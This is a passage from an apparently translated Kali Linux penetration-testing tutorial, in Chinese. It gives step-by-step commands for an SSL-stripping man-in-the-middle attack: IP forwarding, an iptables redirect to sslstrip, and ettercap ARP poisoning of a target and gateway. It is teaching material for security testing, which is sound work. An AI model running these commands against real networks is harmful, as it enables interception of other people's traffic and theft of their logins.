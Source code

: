 ```
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward

```

接下来，使用以下命令设置`iptables`防火墙，将 HTTP 流量重定向到`sslstrip`：

```
root@kali:~# iptables –t nat –A PREROUTING –p tcp
  –destination-port 80 –j REDIRECT –to-port <listenport> 

```

在此示例中，侦听端口已设置为端口 5353。

配置完成后，使用以下命令运行`sslstrip`：

```
root@kali:~# sslstrip –l 5353

```

以下屏幕截图显示了先前命令的执行情况：

![Using sslstrip to conduct a man-in-the-middle attack](img/3121OS_10_16.jpg)

最小化正在执行`sslstrip`的活动终端窗口，并打开一个新的终端窗口。使用`ettercap`欺骗 ARP，并使用以下命令将来自网络或目标系统的流量直接重定向到拦截系统：

```
root@kali:~# ettercap –TqM arp:remote /192.168.75.128/ /192.168.75.2/

```

这里，`ettercap -T`开关选择纯文本界面，`-q`强制控制台进入安静模式，`–M`选项激活中间人攻击，劫持并重定向数据包。`arp:remote`开关实施 ARP 中毒攻击，使攻击者处于中间位置，能够查看和修改传输中的数据包。如果您想查看通过网关的远程 IP 地址和通信，则需要交换机的`remote`部分。

上一个命令的执行如以下屏幕截图所示：
